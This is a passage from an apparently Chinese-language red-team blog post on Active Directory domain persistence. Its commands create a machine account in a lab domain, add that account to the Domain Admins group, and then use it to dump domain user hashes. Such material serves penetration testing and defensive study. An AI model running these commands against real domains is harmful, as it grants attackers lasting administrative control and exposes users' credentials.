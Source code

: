 ```powershell
Import-Module .\NewDomainController.ps1
NewDomainController -MachineAccount "PENTEST" -Password "Passw0rd" -Domain "pentest.com" -DomainController "DC01.pentest.com"
```

![](/assets/posts/2022-01-17-domain-persistence-machine-accounts/48CHbZp2fNnky7x.png)

## 加入特权组

机器帐户可以属于安全组，因此可以直接将机器账户加入特权组，以实现域持久性。例如，执行以下命令，将机器账户 `PENTEST$` 加入到域管理员组（Domain Admins），如下图所示。

```cmd
net group "Domain Admins" PENTEST$ /add /domain
```

![](/assets/posts/2022-01-17-domain-persistence-machine-accounts/VwaWkEnNjg2OrUM.png)

如图下所示，获得域管理员权限的机器账户可成功导出域内用户哈希。

![](/assets/posts/2022-01-17-domain-persistence-machine-accounts/k2BFWmxAZnX76d5.png)
